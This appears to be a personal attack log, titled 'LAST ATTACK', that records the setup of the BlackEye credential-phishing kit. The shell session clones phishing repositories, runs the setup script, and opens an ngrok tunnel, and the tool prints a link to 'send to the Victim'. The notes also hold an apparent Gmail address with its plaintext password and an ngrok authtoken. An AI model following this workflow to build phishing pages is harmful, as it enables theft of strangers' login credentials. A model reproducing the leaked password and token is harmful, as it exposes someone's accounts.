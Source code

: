 19.05.2022
------------------

--> LAST ATTACK

GMAIL: cryptosec03@gmail.com   
PASS: Cryptosec033$

https://www.youtube.com/watch?v=u9dBGWVwMMA&t=12s

https://github.com/thewickedkarma/blackeye-im 

┌──(anonymous㉿osboxes)-[~]
└─$ git clone https://github.com/thelinuxchoice/blackeye.git
Cloning into 'blackeye'...
Username for 'https://github.com': ^C

┌──(anonymous㉿osboxes)-[~]
└─$ git clone https://github.com/thewickedkarma/blackeye-im.git
Cloning into 'blackeye-im'...
remote: Enumerating objects: 1098, done.
remote: Counting objects: 100% (339/339), done.
remote: Compressing objects: 100% (199/199), done.
remote: Total 1098 (delta 175), reused 295 (delta 134), pack-reused 759
Receiving objects: 100% (1098/1098), 24.56 MiB | 12.49 MiB/s, done.
Resolving deltas: 100% (428/428), done.

┌──(anonymous㉿osboxes)-[~]
└─$ cd blackeye-im/

┌──(anonymous㉿osboxes)-[~/blackeye-im]
└─$ ls -l
total 488
-rwxr-xr-x  1 anonymous anonymous  14868 May 19 18:34  blackeye.sh
-rw-r--r--  1 anonymous anonymous   1906 May 19 18:34  index.html
-rwxr-xr-x  1 anonymous anonymous  35147 May 19 18:34  LICENSE
-rwxr-xr-x  1 anonymous anonymous   4055 May 19 18:34  README.md
-rwxr-xr-x  1 anonymous anonymous 423550 May 19 18:34 'Screenshot from 2020-08-08 14-25-39.png'
-rw-r--r--  1 anonymous anonymous   1286 May 19 18:34  setup.sh
drwxr-xr-x 44 anonymous anonymous   4096 May 19 18:34  sites
-rwxr-xr-x  1 anonymous anonymous   3530 May 19 18:34  tmxsp.sh

┌──(anonymous㉿osboxes)-[~/blackeye-im]
└─$ chmod +x setup.sh 

┌──(anonymous㉿osboxes)-[~/blackeye-im]
└─$ ./setup.sh 


┌─[ Choose the tunneling method:]─[~]                                                                              
 └──╼ ~ 1                                                                                                           
[*] Downloading Ngrok...                                                                                            
[*] Starting php server...                                                                                          
[*] Starting ngrok server...                                                                                        
[*] Send this link to the Victim: https://cbaf-62-83-11-248.ngrok.io                                                
[*] Use shortened link instead: https://github.com/thewickedkarma/blackeye-im.git




┌──(anonymous㉿osboxes)-[~/blackeye-im]
└─$ ./ngrok authtoken 29P1hZCN5CDi9d0191AF2dm8qov_68bLL8LbMm88EK4FqGD4M                                  
Authtoken saved to configuration file: /home/anonymous/.ngrok2/ngrok.yml



https://dashboard.ngrok.com/settings/account -- > verificar